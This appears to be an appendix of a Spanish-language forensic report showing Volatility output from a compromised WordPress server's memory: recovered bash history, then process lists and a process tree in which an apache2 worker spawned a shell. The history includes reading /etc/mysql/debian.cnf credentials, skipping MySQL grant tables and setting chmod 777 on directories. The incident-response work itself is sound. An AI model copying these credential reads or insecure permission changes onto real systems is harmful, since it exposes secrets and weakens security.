20577    bash                 2019-01-03 07:49:45 UTC+0000   mysql -uroot -p
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo apt-get install apache2
20577    bash                 2019-01-03 07:49:45 UTC+0000   apt-cache search mysql-server
20577    bash                 2019-01-03 07:49:45 UTC+0000   apt-cache search php
20577    bash                 2019-01-03 07:49:45 UTC+0000   mysql -u root -p
20577    bash                 2019-01-03 07:49:45 UTC+0000   ls -l
20577    bash                 2019-01-03 07:49:45 UTC+0000   #1546501785
20577    bash                 2019-01-03 07:49:45 UTC+0000   tail error.log 
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo vi functions.php 
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo mysql
20577    bash                 2019-01-03 07:49:45 UTC+0000   ls -l /var/run
20577    bash                 2019-01-03 07:49:45 UTC+0000   exit
20577    bash                 2019-01-03 07:49:45 UTC+0000   ls -l
20577    bash                 2019-01-03 07:49:45 UTC+0000   apt-cache search php| grep apache
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo vi /etc/mysql/debian
20577    bash                 2019-01-03 07:49:45 UTC+0000   tail syslog
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo apt-get install mysql-server
20577    bash                 2019-01-03 07:49:45 UTC+0000   _service
20577    bash                 2019-01-03 07:49:45 UTC+0000   apt-cache search mysql | grep php
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo cp /home/ubuntu/wordpress-4.9.8.tar.gz  .
20577    bash                 2019-01-03 07:49:45 UTC+0000   cd /var/log
20577    bash                 2019-01-03 07:49:45 UTC+0000   cd 
20577    bash                 2019-01-03 07:49:45 UTC+0000   U
20577    bash                 2019-01-03 07:49:45 UTC+0000   H???Nt??nu??6
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo mysqld_safe --skip-grant-tables &
20577    bash                 2019-01-03 07:49:45 UTC+0000   apt-cache search mysql
20577    bash                 2019-01-03 07:49:45 UTC+0000   pwd
20577    bash                 2019-01-03 07:49:45 UTC+0000   ls -l
20577    bash                 2019-01-03 07:49:45 UTC+0000   ls -l
20577    bash                 2019-01-03 07:49:45 UTC+0000   `uSU
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo mv * ..
20577    bash                 2019-01-03 07:49:45 UTC+0000   ?,YU
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo mysqld_safe --skip-grant-tables 
20577    bash                 2019-01-03 07:49:45 UTC+0000   r="$c_clear$r"
20577    bash                 2019-01-03 07:49:45 UTC+0000   ls -l /run
20577    bash                 2019-01-03 07:49:45 UTC+0000   ls -l
20577    bash                 2019-01-03 07:49:45 UTC+0000   COMPREPLY=($(compgen -W "--help --local" -- $cur_word))
20577    bash                 2019-01-03 07:49:45 UTC+0000   ls -l
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo tar xzf wordpress-4.9.8.tar.gz 
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo apt-get install aapche2
20577    bash                 2019-01-03 07:49:45 UTC+0000   tail -100 kern.log
20577    bash                 2019-01-03 07:49:45 UTC+0000   mysql -u root -p
20577    bash                 2019-01-03 07:49:45 UTC+0000   cd ..
20577    bash                 2019-01-03 07:49:45 UTC+0000   cd /var/www/html/
20577    bash                 2019-01-03 07:49:45 UTC+0000   ps -ef| grep mysql
20577    bash                 2019-01-03 07:49:45 UTC+0000   apt-cache search php
20577    bash                 2019-01-03 07:49:45 UTC+0000   cd wordpress/
20577    bash                 2019-01-03 07:49:45 UTC+0000   cd hhtml
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo rm -r wordpress/
20577    bash                 2019-01-03 07:49:45 UTC+0000   ls -l
20577    bash                 2019-01-03 07:49:45 UTC+0000   ls -l
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo chmod 777 /var/run/mysqld
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo apt upgrade
20577    bash                 2019-01-03 07:49:45 UTC+0000   ls -l
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo vi /etc/apache2/sites-enabled/000-default.conf 
20577    bash                 2019-01-03 07:49:45 UTC+0000   cd htmlls -l
20577    bash                 2019-01-03 07:49:45 UTC+0000   mysql -uroot -p
20577    bash                 2019-01-03 07:49:45 UTC+0000   ls -l
20577    bash                 2019-01-03 07:49:45 UTC+0000   ls -l
20577    bash                 2019-01-03 07:49:45 UTC+0000   ls -l
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo chown -R www-data:www-data html
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo mysqld_safe --skip-grant-tables 
20577    bash                 2019-01-03 07:49:45 UTC+0000   cd /var/www/html
20577    bash                 2019-01-03 07:49:45 UTC+0000   find . -name functions.php -exec grep -H add_filer {} \;
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo apt install libapache2-mod-php
20577    bash                 2019-01-03 07:49:45 UTC+0000   exit
20577    bash                 2019-01-03 07:49:45 UTC+0000   cd /var/lg
20577    bash                 2019-01-03 07:49:45 UTC+0000   suudo mysqld_safe --skip-grant-tables &
20577    bash                 2019-01-03 07:49:45 UTC+0000   ls -l
20577    bash                 2019-01-03 07:49:45 UTC+0000   cd /var/log/apache2/sites-e
20577    bash                 2019-01-03 07:49:45 UTC+0000   mysql -u root -p
20577    bash                 2019-01-03 07:49:45 UTC+0000   cd
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo service mysql restart
20577    bash                 2019-01-03 07:49:45 UTC+0000   find . -name functions.php -exec grep -H add_filter {} \;
20577    bash                 2019-01-03 07:49:45 UTC+0000   apt-cache search apache2
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo apt-get update
20577    bash                 2019-01-03 07:49:45 UTC+0000   cat debian
20577    bash                 2019-01-03 07:49:45 UTC+0000   ?2JU
20577    bash                 2019-01-03 07:49:45 UTC+0000   echo "Test 1" | mail -s "Test 1" test12312321@mailinator.com
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo chmod 777 /run/mysqld/
20577    bash                 2019-01-03 07:49:45 UTC+0000   dpkg -l | grep mysql-server
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo certbot --apache -d ganga.site -d www.ganga.site
20577    bash                 2019-01-03 07:49:45 UTC+0000   ps -ef| grep mysql
20577    bash                 2019-01-03 07:49:45 UTC+0000   cd /var/log/apache2/
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo mkdir /run/mysqld
20577    bash                 2019-01-03 07:49:45 UTC+0000   cd /etc/mysql/
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo grep root *
20577    bash                 2019-01-03 07:49:45 UTC+0000   mysql -u root -p
20577    bash                 2019-01-03 07:49:45 UTC+0000   ps -ef| grep mysql
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo mysqld_safe --skip-grant-tables 
20577    bash                 2019-01-03 07:49:45 UTC+0000   mysql -u root 
20577    bash                 2019-01-03 07:49:45 UTC+0000   ls -l /run
20577    bash                 2019-01-03 07:49:45 UTC+0000   cd /var/log
20577    bash                 2019-01-03 07:49:45 UTC+0000   cd
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo dpkg-reconfigure mysql-server-5.7
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo service mysql stop
20577    bash                 2019-01-03 07:49:45 UTC+0000   cd apache2/
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo service mysql stop
20577    bash                 2019-01-03 07:49:45 UTC+0000   cat /var/log/mysql/error.log 
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo kill -9 3181
20577    bash                 2019-01-03 07:49:45 UTC+0000   ls -l
20577    bash                 2019-01-03 07:49:45 UTC+0000   mysql -u root
20577    bash                 2019-01-03 07:49:45 UTC+0000   more access.log.1
20577    bash                 2019-01-03 07:49:45 UTC+0000   dpkg -l | grep mysql
20577    bash                 2019-01-03 07:49:45 UTC+0000   chmod 777 /run/mysqld/
20577    bash                 2019-01-03 07:49:45 UTC+0000   g|MP?(E)G|wm[av]|WM[AV]|avi|AVI|asf|vob|VOB|bin|dat|divx|DIVX|vcd|ps|pes|fli|flv|FLV|fxm|FXM|viv|rm|ram|yuv|mov|MOV|qt|QT|web[am]|WEB[AM]|mp[234]|MP[234]|m?(p)4[av]|M?(P)4[AV]|mkv|MKV|og[agmvx]|OG[AGMVX]|t[ps]|T[PS]|m2t?(s)|M2T?(S)|mts|MTS|wav|WAV|flac|FLAC|asx|ASX|mng|MNG|srt|m[eo]d|M[EO]D|s[3t]m|S[3T]M|it|IT|xm|XM)|+([0-9]).@(vdr|VDR))?(.part)'
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo kill -9 3182 3542
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo kill -9 4179
20577    bash                 2019-01-03 07:49:45 UTC+0000   ls
20577    bash                 2019-01-03 07:49:45 UTC+0000   ls -l
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo service mysql stop
20577    bash                 2019-01-03 07:49:45 UTC+0000   ?
20577    bash                 2019-01-03 07:49:45 UTC+0000   ls -l
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo service apache2 rewtart
20577    bash                 2019-01-03 07:49:45 UTC+0000   ls
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo apt install mailutils
20577    bash                 2019-01-03 07:49:45 UTC+0000   ls -lt| more
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo cat debian.cnf 
20577    bash                 2019-01-03 07:49:45 UTC+0000   exit
20577    bash                 2019-01-03 07:49:45 UTC+0000   pwd
20577    bash                 2019-01-03 07:49:45 UTC+0000   mysql -u root -p
20577    bash                 2019-01-03 07:49:45 UTC+0000   cat /etc/issue
20577    bash                 2019-01-03 07:49:45 UTC+0000   cd wordpress/
20577    bash                 2019-01-03 07:49:45 UTC+0000   tail error.log 
20577    bash                 2019-01-03 07:49:45 UTC+0000   tail error.log
20577    bash                 2019-01-03 07:49:45 UTC+0000   vi access.log
20577    bash                 2019-01-03 07:49:45 UTC+0000   cd ..
20577    bash                 2019-01-03 07:49:45 UTC+0000   cd wp-content/themes/twentyseventeen/
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo systemctl restart psotfix
20577    bash                 2019-01-03 07:49:45 UTC+0000   ls -l
20577    bash                 2019-01-03 07:49:45 UTC+0000   exit
20577    bash                 2019-01-03 07:49:45 UTC+0000   mysql_secure_installation
20577    bash                 2019-01-03 07:49:45 UTC+0000   mysql -uroot -p
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo cat /etc/mysql/debian
20577    bash                 2019-01-03 07:49:45 UTC+0000   ls -l tmp
20577    bash                 2019-01-03 07:49:45 UTC+0000   mysql -u root -p
20577    bash                 2019-01-03 07:49:45 UTC+0000   tail syslog
20577    bash                 2019-01-03 07:49:45 UTC+0000   cd /tmp
20577    bash                 2019-01-03 07:49:45 UTC+0000   exit
20577    bash                 2019-01-03 07:49:45 UTC+0000   cd html
20577    bash                 2019-01-03 07:49:45 UTC+0000   find . -name functions.php -exec grep -H add_filter {} \;
20577    bash                 2019-01-03 07:49:45 UTC+0000   cat debian.cnf 
20577    bash                 2019-01-03 07:49:45 UTC+0000   mysql -u root
20577    bash                 2019-01-03 07:49:45 UTC+0000   suudo mysql_secure_installation
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo cat /etc/mysql/debian.cnf 
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo service apache2 retart
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo rm index.html 
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo rm -r /run/mysqld
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo vi wp-config.php 
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo systemctl reload apache2
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo service mysql start
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo vi /etc/postfix/main.cf
20577    bash                 2019-01-03 07:49:45 UTC+0000   tail access.log
20577    bash                 2019-01-03 07:49:45 UTC+0000   tail -100 syslog
20577    bash                 2019-01-03 07:49:45 UTC+0000   ps -ef| grep mysql
20577    bash                 2019-01-03 07:49:45 UTC+0000   cd /var/log/apache2/
20577    bash                 2019-01-03 07:49:45 UTC+0000   ls- l
20577    bash                 2019-01-03 07:49:45 UTC+0000   pwd
20577    bash                 2019-01-03 07:49:45 UTC+0000   vi index.html 
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo apachectl configtest
20577    bash                 2019-01-03 07:49:45 UTC+0000   ps -ef| grep mysql
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo mkdir /var/run/mysqld
20577    bash                 2019-01-03 07:49:45 UTC+0000   tail access.log 
20577    bash                 2019-01-03 07:49:45 UTC+0000   exit
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo add-apt-repository ppa:certbot/certbot
20577    bash                 2019-01-03 07:49:45 UTC+0000   tail access.log 
20577    bash                 2019-01-03 07:49:45 UTC+0000   ls -l
20577    bash                 2019-01-03 07:49:45 UTC+0000   tail -100 access.log 
20577    bash                 2019-01-03 07:49:45 UTC+0000   tail -100 access.log 
20577    bash                 2019-01-03 07:49:45 UTC+0000   execute-command
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo mysqld_safe --skip-grant-tables &
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo kill 3181
20577    bash                 2019-01-03 07:49:45 UTC+0000   exit
20577    bash                 2019-01-03 07:49:45 UTC+0000   !
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo service apache2 restart
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo apt install php-mysql
20577    bash                 2019-01-03 07:49:45 UTC+0000   date
20577    bash                 2019-01-03 07:49:45 UTC+0000   cd ap
20577    bash                 2019-01-03 07:49:45 UTC+0000   ls -l
20577    bash                 2019-01-03 07:49:45 UTC+0000   grep POST access.log 
20577    bash                 2019-01-03 07:49:45 UTC+0000   ls -l
20577    bash                 2019-01-03 07:49:45 UTC+0000   vi access.log 
20577    bash                 2019-01-03 07:49:45 UTC+0000   ls -l
20577    bash                 2019-01-03 07:49:45 UTC+0000   cd home
20577    bash                 2019-01-03 07:49:45 UTC+0000   cd /var/log
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo apchectl configtest
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo service mysql start
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo vi /etc/php/7.2/apache2/php.ini 
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo kill -9 4178
20577    bash                 2019-01-03 07:49:45 UTC+0000   tail -100 syslog
20577    bash                 2019-01-03 07:49:45 UTC+0000   ps -ef| grep mysql
20577    bash                 2019-01-03 07:49:45 UTC+0000   tail -100 syslog
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo rm wordpress-4.9.8.tar.gz 
20577    bash                 2019-01-03 07:49:45 UTC+0000   ls -l /run
20577    bash                 2019-01-03 07:49:45 UTC+0000   ??OU
20577    bash                 2019-01-03 07:49:45 UTC+0000   ls -l /etc/cron.d
20577    bash                 2019-01-03 07:54:14 UTC+0000   ls -l
20577    bash                 2019-01-03 07:54:14 UTC+0000   cd /tmp
20577    bash                 2019-01-03 07:54:36 UTC+0000   sudo insmod lime-4.15.0-42-generic.ko "path=captura.mem format=lime"
20577    bash                 2019-01-03 07:54:50 UTC+0000   cat /etc/issue
20577    bash                 2019-01-03 07:55:13 UTC+0000   uname -a
20577    bash                 2019-01-03 08:16:13 UTC+0000   ls -l
20577    bash                 2019-01-03 08:16:23 UTC+0000   rm lime-4.15.0-42-generic.ko
20577    bash                 2019-01-03 08:16:24 UTC+0000   ls -l
20577    bash                 2019-01-03 08:16:46 UTC+0000   sudo insmod lime-4.15.0-1021-aws.ko "path=captura.mem format=lime"
~~~

[Volver al texto del comando en la Sección 3.4.7.](#347-comando-001)

---

                       

#### 8.4.003.005.001.001. Comando `sudo python2.7 vol.py --profile=LinuxlinuxUbuntu_4_15_0-1021-aws_profilex64 -f '/home/jrodg85/Server_RAM.mem' linux_pslist`.

~~~Shell
sudo python2.7 vol.py --profile=LinuxlinuxUbuntu_4_15_0-1021-aws_profilex64 -f '/home/jrodg85/Server_RAM.mem' linux_pslist
~~~

La respuesta de la consola ha sido la siguiente:

~~~
Volatility Foundation Volatility Framework 2.6.1
Offset             Name              Pid     PPid    Uid    Gid    DTB                Start Time
------------------ ----------------- ------- ------- ------ ------ ------------------ ----------
0xffff90057df50000 systemd           1       0       0      0      0x000000003b7ba000 2018-12-21 12:04:59 UTC+0000
0xffff90057df55b00 kthreadd          2       0       0      0      ------------------ 2018-12-21 12:04:59 UTC+0000
0xffff90057df52d80 kworker/0:0H      4       2       0      0      ------------------ 2018-12-21 12:04:59 UTC+0000
0xffff90057df916c0 mm_percpu_wq      6       2       0      0      ------------------ 2018-12-21 12:04:59 UTC+0000
0xffff90057df90000 ksoftirqd/0       7       2       0      0      ------------------ 2018-12-21 12:04:59 UTC+0000
0xffff90057df95b00 rcu_sched         8       2       0      0      ------------------ 2018-12-21 12:04:59 UTC+0000
0xffff90057df94440 rcu_bh            9       2       0      0      ------------------ 2018-12-21 12:04:59 UTC+0000
0xffff90057df92d80 migration/0       10      2       0      0      ------------------ 2018-12-21 12:04:59 UTC+0000
0xffff90057df9db00 watchdog/0        11      2       0      0      ------------------ 2018-12-21 12:04:59 UTC+0000
0xffff90057dff8000 cpuhp/0           12      2       0      0      ------------------ 2018-12-21 12:04:59 UTC+0000
0xffff90057dffdb00 kdevtmpfs         13      2       0      0      ------------------ 2018-12-21 12:04:59 UTC+0000
0xffff90057dffc440 netns             14      2       0      0      ------------------ 2018-12-21 12:04:59 UTC+0000
0xffff90057dffad80 rcu_tasks_kthre   15      2       0      0      ------------------ 2018-12-21 12:04:59 UTC+0000
0xffff90057dff96c0 kauditd           16      2       0      0      ------------------ 2018-12-21 12:04:59 UTC+0000
0xffff90057d49db00 xenbus            17      2       0      0      ------------------ 2018-12-21 12:04:59 UTC+0000
0xffff90057d49c440 xenwatch          18      2       0      0      ------------------ 2018-12-21 12:04:59 UTC+0000
0xffff90057d4996c0 khungtaskd        20      2       0      0      ------------------ 2018-12-21 12:04:59 UTC+0000
0xffff90057d498000 oom_reaper        21      2       0      0      ------------------ 2018-12-21 12:04:59 UTC+0000
0xffff90057d510000 writeback         22      2       0      0      ------------------ 2018-12-21 12:04:59 UTC+0000
0xffff90057d515b00 kcompactd0        23      2       0      0      ------------------ 2018-12-21 12:04:59 UTC+0000
0xffff90057d514440 ksmd              24      2       0      0      ------------------ 2018-12-21 12:04:59 UTC+0000
0xffff90057d512d80 khugepaged        25      2       0      0      ------------------ 2018-12-21 12:04:59 UTC+0000
0xffff90057d5116c0 crypto            26      2       0      0      ------------------ 2018-12-21 12:04:59 UTC+0000
0xffff90057d53db00 kintegrityd       27      2       0      0      ------------------ 2018-12-21 12:04:59 UTC+0000
0xffff90057d53c440 kblockd           28      2       0      0      ------------------ 2018-12-21 12:04:59 UTC+0000
0xffff90057d53ad80 ata_sff           29      2       0      0      ------------------ 2018-12-21 12:04:59 UTC+0000
0xffff90057d5396c0 md                30      2       0      0      ------------------ 2018-12-21 12:04:59 UTC+0000
0xffff90057d538000 edac-poller       31      2       0      0      ------------------ 2018-12-21 12:04:59 UTC+0000
0xffff90057d7216c0 devfreq_wq        32      2       0      0      ------------------ 2018-12-21 12:04:59 UTC+0000
0xffff90057d720000 watchdogd         33      2       0      0      ------------------ 2018-12-21 12:04:59 UTC+0000
0xffff90057d722d80 kswapd0           36      2       0      0      ------------------ 2018-12-21 12:05:00 UTC+0000
0xffff90057d724440 ecryptfs-kthrea   37      2       0      0      ------------------ 2018-12-21 12:05:00 UTC+0000
0xffff900579725b00 kthrotld          79      2       0      0      ------------------ 2018-12-21 12:05:00 UTC+0000
0xffff900579724440 nvme-wq           80      2       0      0      ------------------ 2018-12-21 12:05:00 UTC+0000
0xffff900579722d80 scsi_eh_0         81      2       0      0      ------------------ 2018-12-21 12:05:00 UTC+0000
0xffff9005797216c0 scsi_tmf_0        82      2       0      0      ------------------ 2018-12-21 12:05:00 UTC+0000
0xffff900579720000 scsi_eh_1         83      2       0      0      ------------------ 2018-12-21 12:05:00 UTC+0000
0xffff900579718000 scsi_tmf_1        84      2       0      0      ------------------ 2018-12-21 12:05:00 UTC+0000
0xffff900579710000 ipv6_addrconf     89      2       0      0      ------------------ 2018-12-21 12:05:00 UTC+0000
0xffff9005796e8000 kstrp             99      2       0      0      ------------------ 2018-12-21 12:05:00 UTC+0000
0xffff9005796ead80 kworker/0:1H      100     2       0      0      ------------------ 2018-12-21 12:05:00 UTC+0000
0xffff900576f896c0 raid5wq           280     2       0      0      ------------------ 2018-12-21 12:05:03 UTC+0000
0xffff900576f7db00 jbd2/xvda1-8      330     2       0      0      ------------------ 2018-12-21 12:05:03 UTC+0000
0xffff900576f7c440 ext4-rsv-conver   331     2       0      0      ------------------ 2018-12-21 12:05:03 UTC+0000
0xffff900576f796c0 iscsi_eh          395     2       0      0      ------------------ 2018-12-21 12:05:03 UTC+0000
0xffff9005797016c0 ib-comp-wq        408     2       0      0      ------------------ 2018-12-21 12:05:04 UTC+0000
0xffff9005796c16c0 ib_mcast          409     2       0      0      ------------------ 2018-12-21 12:05:04 UTC+0000
0xffff9005796c5b00 ib_nl_sa_wq       410     2       0      0      ------------------ 2018-12-21 12:05:04 UTC+0000
0xffff900576f7ad80 lvmetad           414     1       0      0      0x0000000039cf6000 2018-12-21 12:05:04 UTC+0000
0xffff9005796e96c0 rdma_cm           415     2       0      0      ------------------ 2018-12-21 12:05:04 UTC+0000
0xffff90057971ad80 systemd-logind    712     1       0      0      0x000000003b2b6000 2018-12-21 12:05:09 UTC+0000
0xffff900576f88000 dbus-daemon       720     1       103    107    0x000000003bcca000 2018-12-21 12:05:09 UTC+0000
0xffff900576f8ad80 cron              733     1       0      0      0x000000003baac000 2018-12-21 12:05:10 UTC+0000
0xffff9005796c0000 accounts-daemon   734     1       0      0      0x000000003bb3c000 2018-12-21 12:05:10 UTC+0000
0xffff9005796ec440 lxcfs             737     1       0      0      0x000000003b00e000 2018-12-21 12:05:10 UTC+0000
0xffff90057b014440 atd               749     1       0      0      0x000000003b1a4000 2018-12-21 12:05:10 UTC+0000
0xffff90057ae28000 polkitd           771     1       0      0      0x000000003af6e000 2018-12-21 12:05:10 UTC+0000
0xffff90057ae2ad80 agetty            785     1       0      0      0x000000003bcc2000 2018-12-21 12:05:10 UTC+0000
0xffff90057ae2db00 agetty            791     1       0      0      0x0000000039ff8000 2018-12-21 12:05:10 UTC+0000
0xffff90057bd196c0 loop0             951     2       0      0      ------------------ 2018-12-21 12:05:15 UTC+0000
0xffff90057bd18000 loop1             1103    2       0      0      ------------------ 2018-12-21 12:05:18 UTC+0000
0xffff90057a73c440 systemd-network   2788    1       100    102    0x000000003a536000 2018-12-21 12:10:43 UTC+0000
0xffff90057a73db00 systemd-resolve   2804    1       101    103    0x0000000039ea6000 2018-12-21 12:10:43 UTC+0000
0xffff900579712d80 systemd-timesyn   2818    1       -      62583  0x000000003a75a000 2018-12-21 12:10:43 UTC+0000
0xffff90057a7396c0 systemd-journal   2825    1       0      0      0x0000000004406000 2018-12-21 12:10:43 UTC+0000
0xffff9005445a0000 uuidd             5077    1       106    110    0x0000000039ec8000 2018-12-21 12:11:11 UTC+0000
0xffff90057bd1ad80 systemd-udevd     5160    1       0      0      0x000000003a790000 2018-12-21 12:11:12 UTC+0000
0xffff90057bd1db00 xfsalloc          10374   2       0      0      ------------------ 2018-12-21 12:11:28 UTC+0000
0xffff90057bd1c440 xfs_mru_cache     10375   2       0      0      ------------------ 2018-12-21 12:11:28 UTC+0000
0xffff90054466ad80 iscsid            10988   1       0      0      0x0000000036d48000 2018-12-21 12:11:35 UTC+0000
0xffff90054466db00 iscsid            10989   1       0      0      0x0000000039d76000 2018-12-21 12:11:35 UTC+0000
0xffff90057d49ad80 networkd-dispat   11199   1       0      0      0x0000000039e26000 2018-12-21 12:11:37 UTC+0000
0xffff90057940c440 sshd              12159   1       0      0      0x000000000472c000 2018-12-21 12:12:06 UTC+0000
0xffff90054f4cdb00 mysqld            5127    1       111    116    0x000000003af40000 2018-12-21 18:18:37 UTC+0000
0xffff90057b4cdb00 apache2           5469    1       0      0      0x00000000044da000 2018-12-21 18:29:25 UTC+0000
0xffff9005445a2d80 loop2             6189    2       0      0      ------------------ 2018-12-21 19:10:22 UTC+0000
0xffff9005445a16c0 snapd             6219    1       0      0      0x0000000039eb2000 2018-12-21 19:10:23 UTC+0000
0xffff90054da68000 loop3             6349    2       0      0      ------------------ 2018-12-21 19:10:26 UTC+0000
0xffff9005797196c0 amazon-ssm-agen   6445    1       0      0      0x0000000039e12000 2018-12-21 19:10:27 UTC+0000
0xffff9005796edb00 rsyslogd          26254   1       102    106    0x0000000017b26000 2018-12-30 10:44:51 UTC+0000
0xffff900557adad80 master            26489   1       0      0      0x0000000036a42000 2018-12-30 10:46:13 UTC+0000
0xffff900557ad8000 qmgr              26500   26489   112    117    0x0000000017baa000 2018-12-30 10:46:13 UTC+0000
0xffff90057940ad80 kworker/0:0       19056   2       0      0      ------------------ 2019-01-03 04:24:46 UTC+0000
0xffff90057b010000 kworker/u30:2     19454   2       0      0      ------------------ 2019-01-03 05:50:42 UTC+0000
0xffff9005448adb00 apache2           19704   5469    33     33     0x000000003a7ec000 2019-01-03 06:25:21 UTC+0000
0xffff9005448ac440 apache2           19705   5469    33     33     0x000000003ce4a000 2019-01-03 06:25:21 UTC+0000
0xffff9005448aad80 apache2           19706   5469    33     33     0x000000003cf7e000 2019-01-03 06:25:21 UTC+0000
0xffff900557b6ad80 apache2           19707   5469    33     33     0x000000002c6d8000 2019-01-03 06:25:21 UTC+0000
0xffff900579f34440 apache2           19708   5469    33     33     0x000000003ae1a000 2019-01-03 06:25:21 UTC+0000
0xffff900579715b00 kworker/0:1       19709   2       0      0      ------------------ 2019-01-03 06:25:21 UTC+0000
0xffff900579f32d80 apache2           19952   5469    33     33     0x000000002c644000 2019-01-03 06:33:15 UTC+0000
0xffff900579f316c0 apache2           19953   5469    33     33     0x0000000036cfc000 2019-01-03 06:33:16 UTC+0000
0xffff900579f30000 apache2           20230   5469    33     33     0x000000000453c000 2019-01-03 07:26:31 UTC+0000
0xffff900557b6db00 apache2           20231   5469    33     33     0x000000003ad62000 2019-01-03 07:26:32 UTC+0000
0xffff900557b6c440 apache2           20232   5469    33     33     0x0000000036ccc000 2019-01-03 07:26:33 UTC+0000
0xffff900557b696c0 apache2           20233   5469    33     33     0x000000003b35e000 2019-01-03 07:26:34 UTC+0000
0xffff900557b68000 sh                20381   19952   33     33     ------------------ 2019-01-03 07:32:10 UTC+0000
0xffff90054f620000 sshd              20483   12159   0      0      0x0000000016244000 2019-01-03 07:50:04 UTC+0000
0xffff9005797116c0 systemd           20485   1       1000   1000   0x000000003b608000 2019-01-03 07:50:05 UTC+0000
0xffff9005445c0000 (sd-pam)          20486   20485   1000   1000   0x0000000036902000 2019-01-03 07:50:05 UTC+0000
0xffff90057b6bdb00 sshd              20576   20483   1000   1000   0x0000000019760000 2019-01-03 07:50:05 UTC+0000
0xffff90057b6bc440 bash              20577   20576   1000   1000   0x000000001624c000 2019-01-03 07:50:05 UTC+0000
0xffff900542fadb00 pickup            20703   26489   112    117    0x000000002c792000 2019-01-03 08:01:34 UTC+0000
0xffff90057df516c0 kworker/u30:1     20781   2       0      0      ------------------ 2019-01-03 08:09:21 UTC+0000
0xffff90057df54440 kworker/u30:0     20886   2       0      0      ------------------ 2019-01-03 08:16:28 UTC+0000
0xffff90057b4396c0 sudo              20893   20577   0      0      0x000000003b602000 2019-01-03 08:17:06 UTC+0000
0xffff90057b43c440 insmod            20894   20893   0      0      0x0000000002f26000 2019-01-03 08:17:06 UTC+0000
0xffff90057b015b00 kworker/0:2       20898   2       0      0      ------------------ 2019-01-03 08:17:06 UTC+0000
~~~

[Volver al texto del comando en la Sección 3.5.1.](#351-comando-001)

---

                          

#### 8.4.003.005.002.001. Comando `sudo python2.7 vol.py --profile=LinuxlinuxUbuntu_4_15_0-1021-aws_profilex64 -f '/home/jrodg85/Server_RAM.mem' linux_pstree`.

~~~Shell
sudo python2.7 vol.py --profile=LinuxlinuxUbuntu_4_15_0-1021-aws_profilex64 -f '/home/jrodg85/Server_RAM.mem' linux_pstree
~~~

La respuesta de la consola ha sido la siguiente:

~~~
Volatility Foundation Volatility Framework 2.6.1
Name                Pid     Uid
------------------- ------- -------
systemd             1
.lvmetad            414
.systemd-logind     712
.dbus-daemon        720     103
.cron               733
.accounts-daemon    734
.lxcfs              737
.atd                749
.polkitd            771
.agetty             785
.agetty             791
.systemd-network    2788    100
.systemd-resolve    2804    101
.systemd-timesyn    2818    62583
.systemd-journal    2825
.uuidd              5077    106
.systemd-udevd      5160
.iscsid             10988
.iscsid             10989
.networkd-dispat    11199
.sshd               12159
..sshd              20483
...sshd             20576   1000
....bash            20577   1000
.....sudo           20893
......insmod        20894
.mysqld             5127    111
.apache2            5469
..apache2           19704   33
..apache2           19705   33
..apache2           19706   33
..apache2           19707   33
..apache2           19708   33
..apache2           19952   33
...[sh]             20381   33
..apache2           19953   33
..apache2           20230   33
..apache2           20231   33
..apache2           20232   33
..apache2           20233   33
.snapd              6219
.amazon-ssm-agen    6445
.rsyslogd           26254   102
.master             26489
..qmgr              26500   112
..pickup            20703   112
.systemd            20485   1000
..(sd-pam)          20486   1000
[kthreadd]          2
.[kworker/0:0H]     4
.[mm_percpu_wq]     6
.[ksoftirqd/0]      7
.[rcu_sched]        8
.[rcu_bh]           9
.[migration/0]      10
.[watchdog/0]       11
.[cpuhp/0]          12
